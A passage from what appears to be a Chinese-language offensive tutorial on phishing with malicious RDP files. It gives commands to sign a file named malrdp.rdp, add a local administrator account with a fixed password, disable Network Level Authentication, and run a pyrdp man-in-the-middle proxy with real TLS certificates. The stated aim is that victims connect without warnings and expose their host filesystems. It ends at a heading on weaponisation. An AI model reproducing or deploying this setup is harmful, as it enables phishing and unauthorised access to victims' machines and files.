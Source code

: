 ![]()image.png

现在，让我们对此 RDP 文件进行签名。在 PowerShell 中，输入以下命令对 RDP 文件进行签名：

    
    
    rdpsign.exe /sha256 YOUR_CERTIFICATE_THUMBPRINT .\malrdp.rdp

![]()image.png

如果现在打开 RDP 文件，则会看到它确实已签名：

![]()image.png

现在，让我们创建一个新用户供受害者连接：

    
    
    net user tsuser StrongP@ssw0rd /add  
    net localgroup administrators tsuser /add

![]()

为了使 RDP 文件自动连接，而无需受害者输入用户和密码，我们将使用 pyrdp 作为 RDP 的代理以及自动登录。再次打开 WSL
外壳，并使用以下命令下载并安装 pyrdp：

    
    
    cd /opt/  
    git clone https://github.com/GoSecure/pyrdp.git  
    cd pyrdp/  
    pip install .

![]()

在运行 pyrdp 之前，我们必须确保 NLA 已针对我们的 Windows EC2 关闭。我们可以通过打开 Windows
设置->远程桌面->高级设置->确保取消选中要求计算机使用网络级别身份验证进行连接：

![]()

现在我们准备好使用以下命令运行 Pyrdp（确保使用证书公钥和私钥，以便受害者不会收到任何 SSL 警告：

    
    
    pyrdp-mitm.py 127.0.0.1:3389 -u tsuser -p StrongP@ssw0rd --listen 443 -c /etc/letsencrypt/live/malrdp/fullchain.pem -k /etc/letsencrypt/live/malrdp/privkey.pem

如果你现在尝试使用 malrdp.rdp 钓鱼，则不会看到 SSL 警告，并且连接将在不需要受害者凭据的情况下通过：

![]()

还会注意到 RDP 会话可以访问受害者的主机文件系统：

![]()image.png

现在我们已经准备好进入有趣的部分了...

## 0x03 武器化
